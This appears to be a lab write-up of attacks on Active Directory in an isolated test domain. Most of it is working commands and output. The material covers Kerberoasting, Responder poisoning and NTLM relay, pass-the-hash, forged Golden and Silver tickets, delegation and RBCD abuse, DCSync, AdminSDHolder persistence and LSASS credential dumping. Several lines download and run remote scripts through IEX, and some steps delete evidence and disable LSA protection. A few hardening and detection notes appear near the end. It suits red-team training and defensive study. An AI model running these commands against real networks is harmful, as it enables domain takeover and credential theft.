This section describes the initial configuration of the Active Directory laboratory used for the attack demonstrations. The environment is intentionally minimal and isolated, consisting of a Windows Server 2022 Domain Controller, a Windows 10 workstation, and a Kali Linux attacker machine.
MyDC10.10.10.99 (Internal Network, static)10.0.2.15 (NAT)
# Install AD DS Role and Management Tools
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
# Promote to Domain Controller (for lab.local)
Install-ADDSForest `
-DomainName "lab.local" `
-DomainNetbiosName "LAB" `
-ForestMode "7" `
-DomainMode "7" `
-InstallDns:$true `
-NoRebootOnCompletion:$false `
-Force:$true
# Check
Get-ADDomain
Get-WinUserLanguageList
$LangList = New-WinUserLanguageList es-ES
$LangList
Set-WinUserLanguageList $LangList -Force
Get-WinUserLanguageList
Links:
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/wazehell/vulnerable-AD/master/vulnad.ps1"))
# Alternative:
# https://raw.githubusercontent.com/safebuffer/vulnerable-AD/refs/heads/master/vulnad.ps1
Invoke-VulnAD -UsersLimit 10 -DomainName "lab.local"
New-ADUser -Name "AD_User" -SamAccountName "ad_user" -UserPrincipalName "ad_user@lab.local" `
-AccountPassword (ConvertTo-SecureString "ad_user" -AsPlainText -Force) -Enabled $true
Get-WindowsFeature AD-Domain-Services, DNS | Where-Object InstallState -eq "Installed"
Get-ADDomain | Select-Object Name, Forest, DomainControllersContainer
Get-DnsServerResourceRecord -ZoneName "lab.local" -RRType SRV
New-ADUser -Name "roastme" -SamAccountName "roastme" `
-AccountPassword (ConvertTo-SecureString "Password123" -AsPlainText -Force) -Enabled $true
Set-ADUser -Identity "roastme" -Add @{ServicePrincipalName="HTTP/roastme.lab.local"}
Set-ADUser -Identity "roastme" -Replace @{userAccountControl=4194304}
Requirements for a Kerberoastable account:
MY-BOX10.10.10.77 (Internal Network, DNS set to 10.10.10.99)10.0.3.15 (NAT)
Test-NetConnection -ComputerName MyDC.lab.local -Port 53 # DNS
Test-NetConnection -ComputerName MyDC.lab.local -Port 389 # LDAP
Add-Computer -DomainName lab.local -Credential (Get-Credential LAB\Administrator) -Restart
After restarting, log in using the domain account ad_user.
A standard Kali Linux virtual machine was used as the attacker system. Minor adjustments were made during the setup to correct issues such as time and network configuration inconsistencies.
Attack Conditions:
ad_user:ad_user)Goals:
ad_user to Domain Adminad_user)
# Download SharpHound.ps1
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1')
# Collect AD data (creates ZIP)
Invoke-BloodHound -CollectionMethods All -Domain "lab.local" -OutputDirectory $pwd
Output: A file named <TIMESTAMP>_BloodHound.zip is created in the current directory.
# On Kali: Start an SMB server
mkdir smb; cd smb
impacket-smbserver -smb2support smb . -username ABC -password ABC
# On Windows 10: Mount the SMB share and transfer the file
$pass = ConvertTo-SecureString -AsPlainText -Force "ABC"
$cred = New-Object System.Management.Automation.PSCredential("ABC",$pass)
New-PSDrive -Name KALI -PSProvider FileSystem -Root \\10.10.10.9\smb -Credential $cred
Get-ChildItem KALI:\
Copy-Item .\20250807171032_BloodHound.zip KALI:\
# Start Neo4j
sudo neo4j start
# Password: admin
# Launch BloodHound
bloodhound
BloodHound Login:
bolt://localhost:7687neo4jadminImport the ZIP file by dragging and dropping it into the BloodHound interface.
ad_user@lab.local → Shortest Paths to High Value Targets
MATCH (u:User {hasspn:true}) RETURN u

# On Windows 10: Remove evidence
Remove-Item <TIMESTAMP>_BloodHound.zip -Force
Attack Conditions:
ad_user:ad_user)Goals:
# Enumerate service accounts with SPNs
impacket-GetUserSPNs.py lab.local/ad_user:ad_user -dc-ip 10.10.10.99 -request
Output: Hashes saved in $krb5tgs$23 format (Hashcat mode 13100).
# Crack with Hashcat (rockyou.txt wordlist)
hashcat -m 13100 kerberoastable_hashes.txt /usr/share/wordlists/rockyou.txt -O
hashcat -m 13100 kerberoastable_hashes.txt /usr/share/wordlists/rockyou.txt --show
Results:

# Test cracked credentials
netexec smb 10.10.10.99 -u roastme -p 'Password123'
Results:

Attack Conditions:
Goals:
# Stop conflicting services
sudo systemctl stop smbd nmbd winbind
# Start poisoning (eth0 = attacker interface)
sudo responder -I eth0 -dwv
Options:
\\fake-sharead_user:ad_user)
Hashes are saved in /usr/share/responder/logs/.
hashcat -m 5600 LLMNR_NBT-NS_Poisoning_hashes.txt /usr/share/wordlists/rockyou.txt -O
# Or with a custom password list
hashcat -m 5600 LLMNR_NBT-NS_Poisoning_hashes.txt password_list.txt -O
hashcat -m 5600 LLMNR_NBT-NS_Poisoning_hashes.txt password_list.txt --show
Results:

If the domain controller has SMB signing disabled (verify with nmap --script smb2-security-mode -p445 <DC_IP>):
# 1. Generate target list
echo <DC_IP> > targets.txt
# 2. Start ntlmrelayx
sudo ntlmrelayx.py -tf targets.txt -smb2support -socks
# 3. Trigger authentication from Windows 10 (same as before)
# 4. Use relayed session
proxychains smbclient //<DC_IP>/C$ -U 'LAB\\ad_user'
\\fake-share, and Responder replies pretending to be that host.Attack Conditions:
The following example assumes that a hash was previously dumped from a compromised system using a tool such as Mimikatz.
# sekurlsa::logonpasswords
fea5dc85462b84d91dc61a66458bff37
nmap -Pn -n --script smb-security-mode -p445 <TARGET_IP>
# Look for: message_signing: disabled or not enforced
Access SMB Shares:
netexec smb 10.10.10.99 -u ad_user -H fea5dc85462b84d91dc61a66458bff37 -d lab.local --users

Execute Commands (authentication does not imply authorization):
netexec smb 10.10.10.99 -u ad_user -H fea5dc85462b84d91dc61a66458bff37 -x "whoami"
Gain Interactive Shell:
psexec.py lab.local/ad_user@10.10.10.77 -hashes :fea5dc85462b84d91dc61a66458bff37
| Hash Type | Format | Reusable for PtH? | Source |
|---|---|---|---|
| NT Hash | 8846F7EAEE8FB117AD06BDD830B7586C |
Yes | LSASS, SAM, DCSync |
| NTLMv2 Response | testpth::LAB:112233...:8846F7EA... |
No | Responder capture |
Always use NT hashes (32 hexadecimal characters) for Pass-the-Hash attacks, not full NTLMv2 responses.
Attack Conditions:
Goals:
Required to extract the krbtgt hash.
sudo impacket-psexec lab.local/Administrator@10.10.10.99 -hashes :4cb55ea6471d29ccbb2ce4cf00271fe3
# On the domain controller (Mimikatz)
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:lab.local /user:krbtgt
# On Kali
netexec ldap 10.10.10.99 -d lab.local -u ad_user -p ad_user --get-sid
Output:
krbtgt NT hash: 9f5f3975e19aa08498a25f6775f5b8b2
Domain SID: S-1-5-21-2023621548-1011382311-3318102000
impacket-ticketer -nthash 9f5f3975e19aa08498a25f6775f5b8b2 \
-domain-sid S-1-5-21-2023621548-1011382311-3318102000 \
-domain lab.local Administrator
Output: A file named Administrator.ccache.
unset KRB5CCNAME
export KRB5CCNAME=$(pwd)/Administrator.ccache
# Ensure MyDC.lab.local is resolvable in /etc/hosts
# Access the domain controller as Domain Admin
impacket-psexec Administrator@MyDC.lab.local -k -no-pass
# Dump all hashes
impacket-secretsdump -k -no-pass Administrator@MyDC.lab.local

impacket-ticketer -nthash 9f5f3975e19aa08498a25f6775f5b8b2 \
-domain-sid S-1-5-21-2023621548-1011382311-3318102000 \
-domain lab.local Administrator
unset KRB5CCNAME
export KRB5CCNAME=$(pwd)/Administrator.ccache
# NT AUTHORITY\SYSTEM shell
impacket-psexec Administrator@MyDC.lab.local -k -no-pass
# Administrator shell (alternative)
# impacket-wmiexec Administrator@MyDC.lab.local -k -no-pass
# Dump all hashes (alternative)
# impacket-secretsdump -k -no-pass Administrator@MyDC.lab.local
Note: The Golden Ticket attack did not work with fake accounts or the domain controller machine account, possibly due to updated security protections in Windows Server 2022.
Attack Conditions:
Goals:
impacket-GetNPUsers lab.local/ -no-pass -dc-ip 10.10.10.99 \
-usersfile Domain_Users.txt -format hashcat -outputfile asrep.txt
Results:

hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt -O
Results:

netexec smb 10.10.10.99 -u bill.shanie -p 'magic'
Results:

Attack Conditions:
Goals:
Requires Domain Admin access.
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
# Example extracted hash:
# c3d7c3fd7215adc7f9fd417b70deb55e
netexec ldap 10.10.10.99 -d lab.local -u ad_user -p ad_user --get-sid
# Example:
# S-1-5-21-2023621548-1011382311-3318102000
ldapsearch -x -H ldap://10.10.10.99 -D "ad_user@lab.local" -w ad_user \
-b "dc=lab,dc=local" "(servicePrincipalName=*)" | grep servicePrincipalName
Target SPN: HOST/MyDC.lab.local
impacket-ticketer -nthash c3d7c3fd7215adc7f9fd417b70deb55e \
-domain-sid S-1-5-21-2023621548-1011382311-3318102000 \
-domain lab.local -spn HOST/MyDC.lab.local fakeuser
Output: fakeuser.ccache
unset KRB5CCNAME
export KRB5CCNAME=$(pwd)/fakeuser.ccache
impacket-psexec fakeuser@MyDC.lab.local -k -no-pass
Results:

impacket-ticketer -nthash c3d7c3fd7215adc7f9fd417b70deb55e \
-domain-sid S-1-5-21-2023621548-1011382311-3318102000 \
-domain lab.local -spn HOST/MyDC.lab.local fakeuser
unset KRB5CCNAME
export KRB5CCNAME=$(pwd)/fakeuser.ccache
impacket-wmiexec fakeuser@MyDC.lab.local -k -no-pass
Attack Conditions:
Goals:
cpassword attributes
smbclient //10.10.10.99/SYSVOL -U 'lab.local\\ad_user%ad_user' \
-c 'recurse; ls' | grep -i .xml -B 4
Key files: Groups.xml, Services.xml, ScheduledTasks.xml
smbclient //10.10.10.99/SYSVOL -U 'lab.local\\ad_user%ad_user' \
-c 'get \\lab.local\\Policies\\{31B2F340-016D-11D2-945F-00C04FB984F9}\\MACHINE\\Preferences\\Groups.xml'
mv *Groups.xml Groups.xml
cat Groups.xml | grep cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
$cpassword = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
$gpo = Get-GPO -Name "Default Domain Policy"
$guid = $gpo.Id.Guid
$xmlContent = @"
"@
$targetPath = "C:\Windows\SYSVOL\domain\Policies\{$guid}\Machine\Preferences"
New-Item -Path $targetPath -ItemType Directory -Force | Out-Null
$xmlContent | Out-File "$targetPath\Groups.xml" -Encoding UTF8
cpassword and use LAPS.This section is intentionally left empty. ACL abuse depends heavily on the specific environment and privilege assignments.
Attack Conditions:
Goals:
Set-ADComputer -Identity "MY-BOX" -TrustedForDelegation $true
Get-ADComputer -Identity "MY-BOX" -Properties TrustedForDelegation |
Select Name, TrustedForDelegation
Enable-WindowsOptionalFeature -Online -FeatureName IIS-WebServer -All
Import-Module WebAdministration
Set-WebConfigurationProperty -Filter system.webServer/security/authentication/windowsAuthentication \
-Name enabled -Value True -PSPath 'IIS:\'
Set-WebConfigurationProperty -Filter system.webServer/security/authentication/anonymousAuthentication \
-Name enabled -Value False -PSPath 'IIS:\'
iisreset.exe
setspn -S HTTP/MY-BOX.lab.local LAB\\MY-BOX$
Query:
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

# Any method that provides local admin access
Rubeus.exe monitor /interval:5 /nowrap


Invoke-WebRequest -Uri "http://MY-BOX.lab.local" -UseBasicParsing -UseDefaultCredentials

echo "BASE64_TICKET" | base64 -d > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
psexec.py -k -no-pass lab.local/Administrator@MyDC.lab.local
Results:

Attack Conditions:
Goals:
In BloodHound, look for outbound control rights:
Method A: Using secretsdump.py
impacket-secretsdump Administrator@MyDC.lab.local -k -no-pass > DCSync.txt
Results:

Method B: Using Mimikatz (Windows)
privilege::debug
lsadump::dcsync /domain:lab.local /all /csv
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
NT hash: 58a478135a93ac3bf058a5ea0e8fdb71
crackmapexec smb <DC_IP> -u Administrator -H <NT_HASH>
| Action | Command |
|---|---|
| Extract all hashes | secretsdump.py lab.local/user:pass@DC_IP -just-dc |
| Get krbtgt only | secretsdump.py lab.local/user:pass@DC_IP -just-dc-user krbtgt |
| Mimikatz method | lsadump::dcsync /domain:lab.local /user:krbtgt |
{1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}.Attack Conditions:
Goals:
Queries:
MATCH (c:Computer {constraineddelegation:true}) RETURN c
MATCH (u:User {constraineddelegation:true}) RETURN u
Get-ADObject -Filter {msDS-AllowedToDelegateTo -like "*"} -Properties msDS-AllowedToDelegateTo

iwr https://raw.githubusercontent.com/r3motecontrol/Ghostpack-CompiledBinaries/refs/heads/master/Rubeus.exe -OutFile Rubeus.exe
Rubeus.exe asktgt /user:svc_deleg /password:Passw0rd! /domain:lab.local /outfile:svc_deleg_tgt.kirbi

Rubeus.exe s4u /ticket:svc_deleg_tgt.kirbi \
/impersonateuser:Administrator \
/msdsspn:CIFS/MyDC.lab.local \
/altservice:CIFS \
/domain:lab.local /ptt


.\Rubeus.exe klist

dir \\MyDC.lab.local\C$
impacket-findDelegation lab.local/Bill.Shanie:magic -target-domain lab.local

impacket-getST -spn 'CIFS/MyDC.lab.local' \
-impersonate Administrator \
-dc-ip 10.10.10.99 \
'lab.local/svc_deleg:Passw0rd!'
export KRB5CCNAME=$(pwd)/Administrator@CIFS_MyDC.lab.local@LAB.LOCAL.ccache


impacket-smbclient -k -no-pass lab.local/Administrator@MyDC.lab.local

impacket-psexec -k -no-pass lab.local/Administrator@MyDC.lab.local


New-ADUser -Name "svc_deleg" -SamAccountName "svc_deleg" \
-AccountPassword (ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force) \
-Enabled $true \
-ServicePrincipalNames "CIFS/MyDC.lab.local"
Set-ADUser -Identity svc_deleg -Add @{'msDS-AllowedToDelegateTo'=@('CIFS/MyDC.lab.local')}
Set-ADAccountControl -Identity svc_deleg -TrustedToAuthForDelegation $true
Get-ADUser svc_deleg -Properties msDS-AllowedToDelegateTo, TrustedToAuthForDelegation
| Action | Command |
|---|---|
| Request TGT | Rubeus asktgt /user:svc_account /password:Pass123! /domain:lab.local |
| S4U2Self abuse | Rubeus s4u /ticket:base64_ticket /impersonateuser:Administrator /msdsspn:CIFS/dc.lab.local |
| Silver ticket | Rubeus silver /domain:lab.local /sid:S-1-5-21-... /user:svc_account /service:HTTP /target:dc.lab.local |
svc_delegAttack Conditions:
Goals:
Use BloodHound to confirm that the compromised account has write permissions over the target computer object.

impacket-addcomputer -computer-name 'ATTACKER$' -computer-pass 'Passw0rd!' \
-dc-ip 10.10.10.99 lab.local/ad_user:ad_user

impacket-rbcd lab.local/ad_user:ad_user -dc-ip 10.10.10.99 \
-delegate-from ATTACKER$ -delegate-to MY-BOX$ -action write

impacket-getST -spn 'HOST/MY-BOX.lab.local' \
-impersonate 'Administrator' \
-dc-ip 10.10.10.99 \
'lab.local/ATTACKER$:Passw0rd!' \
-force-forwardable

unset KRB5CCNAME
export KRB5CCNAME=$(pwd)/Administrator@HOST_MY-BOX.lab.local@LAB.LOCAL.ccache
impacket-smbclient -k -no-pass lab.local/Administrator@MY-BOX.lab.local

impacket-psexec -k -no-pass lab.local/Administrator@MY-BOX.lab.local

$targetComputer = Get-ADComputer -Identity "MY-BOX"
$user = Get-ADUser -Identity "ad_user"
$adPath = "AD:$($targetComputer.DistinguishedName)"
$acl = Get-Acl -Path $adPath
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
$user.SID,
"GenericAll",
"Allow",
"All",
[Guid]::Empty
)
$acl.AddAccessRule($ace)
Set-ACL -Path "AD:$($targetComputer.DistinguishedName)" -AclObject $acl
(Get-ACL -Path "AD:$($targetComputer.DistinguishedName)").Access |
Where-Object {$_.IdentityReference -like "*ad_user*"} |
Format-List IdentityReference, ActiveDirectoryRights, AccessControlType

Get-ADDomain -Identity lab.local |
Select-Object -ExpandProperty DistinguishedName |
Get-ADObject -Properties ms-DS-MachineAccountQuota |
Select-Object ms-DS-MachineAccountQuota
| Issue | Solution |
|---|---|
| addcomputer.py fails | Verify that MachineAccountQuota is greater than zero. |
| rbcd.py access denied | Confirm GenericAll permissions on the target computer object. |
| getST fails | Ensure the target computer is online and required services are running. |
New-MachineAccount -MachineAccount ATTACKER `
-Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force)
Remove-ADComputer -Identity "ATTACKER$" -Confirm:$false
Attack Conditions:
Goals:
Use BloodHound to confirm that the compromised user has write or WriteDacl rights over the AdminSDHolder container.

Import-Module ActiveDirectory
$adminSDHolder = Get-ADObject -Filter {name -like "AdminSDHolder"} -Properties nTSecurityDescriptor
$user = Get-ADUser -Identity "ad_user"
$sid = $user.SID
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
$sid,
"GenericAll",
"Allow",
"All",
[Guid]::Empty
)
$acl = $adminSDHolder.nTSecurityDescriptor
$acl.AddAccessRule($ace)
Set-ADObject -Identity $adminSDHolder -Replace @{nTSecurityDescriptor = $acl}
impacket-dacledit -action 'write' -rights 'FullControl' \
-principal 'ad_user' \
-target-dn 'CN=AdminSDHolder,CN=System,DC=LAB,DC=LOCAL' \
'lab.local'/'ad_user':'ad_user'
impacket-dacledit -action 'read' \
-target-dn 'CN=AdminSDHolder,CN=System,DC=LAB,DC=LOCAL' \
'lab.local'/'ad_user':'ad_user'


.\Invoke-SDPropagator
Invoke-SDPropagator
Alternatively, wait for the default SDProp cycle (about 60 minutes).
(Get-ACL -Path "AD:CN=Domain Admins,CN=Users,DC=lab,DC=local").Access |
Where-Object {$_.IdentityReference -like "*ad_user*"}

Add-ADGroupMember -Identity "Domain Admins" -Members "ad_user"
Get-ADGroupMember -Identity "Domain Admins" |
Where-Object {$_.SamAccountName -eq "ad_user"}
net rpc group addmem "Domain Admins" ad_user -U "ad_user%ad_user" -S MyDC.lab.local
net rpc group members "Domain Admins" -U "ad_user%ad_user" -S MyDC.lab.local

impacket-psexec ad_user@lab.local

AdminSDHolder abuse does not automatically re-add the user to privileged groups if removed. Instead, the user retains the ability to grant themselves privileged group membership again at any time. This is a privilege persistence mechanism rather than a one-time privilege escalation.
$adminSDHolder = Get-ADObject -Filter {name -like "AdminSDHolder"}
$user = Get-ADUser -Identity "ad_user"
$acl = Get-ACL -Path "AD:$($adminSDHolder.DistinguishedName)"
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
$user.SID,
"WriteDacl",
"Allow",
"All",
[Guid]::Empty
)
$acl.AddAccessRule($ace)
Set-ACL -Path "AD:$($adminSDHolder.DistinguishedName)" -AclObject $acl
(Get-ACL -Path "AD:$($adminSDHolder.DistinguishedName)").Access |
Where-Object {$_.IdentityReference -like "*ad_user*"} |
Select-Object IdentityReference, ActiveDirectoryRights

$acl = Get-ACL -Path "AD:\\CN=AdminSDHolder,CN=System,DC=lab,DC=local"
$acl.Access |
Where-Object {$_.IdentityReference -notlike "NT AUTHORITY*"}
BloodHound Query:
MATCH (u:User)-[r:WriteDacl|GenericAll]->(c:Container {name: "AdminSDHolder"})
RETURN u, r, c
SIEM Alerts:
Attack Conditions:
Goals:
impacket-psexec lab.local/ad_user@<TARGET_IP> -hashes :<NT_HASH>
impacket-psexec ad_user@MyDC.lab.local
Method A: Using Procdump
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp
scp.exe lsass.dmp kali_user@<KALI_IP>:/tmp/
Method B: Using Mimikatz (in memory)
privilege::debug
sekurlsa::logonpasswords
Method C: Using Nanodump (PowerShell)
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/NotMedic/Invoke-Nanodump/refs/heads/main/Invoke-Nanodump.ps1')
Invoke-Nanodump
Method C: Using Nanodump (NetExec module, Kali)
netexec smb -u ad_user -p ad_user -d lab.local 10.10.10.99 -M nanodump

pypykatz lsa minidump /tmp/MYDC_64_lab.local.log > MyDC_Lsass_dump.txt


pypykatz lsa minidump lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
crackmapexec smb <TARGET_IP> -u Administrator -H <EXTRACTED_NT_HASH>
psexec.py lab.local/Administrator@<TARGET_IP> -hashes :<EXTRACTED_NT_HASH>
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 0 /f
Restart-Computer -Force
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Procdump.zip" -OutFile "procdump.zip"
Expand-Archive -Path "procdump.zip" -DestinationPath "C:\Tools\"
| Action | Command |
|---|---|
| Dump LSASS | procdump -ma lsass.exe lsass.dmp |
| Extract credentials | pypykatz lsa minidump lsass.dmp |
| In-memory extraction | sekurlsa::logonpasswords |
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1 /f
Enable-WindowsOptionalFeature -Online -FeatureName "Microsoft-Hyper-V" -All
Enable-WindowsOptionalFeature -Online -FeatureName "CredentialGuard" -All
Sysmon Configuration Example:
<ProcessAccess onmatch="include">
<TargetImage condition="end with">lsass.exe</TargetImage>
</ProcessAccess>
SIEM Alerts: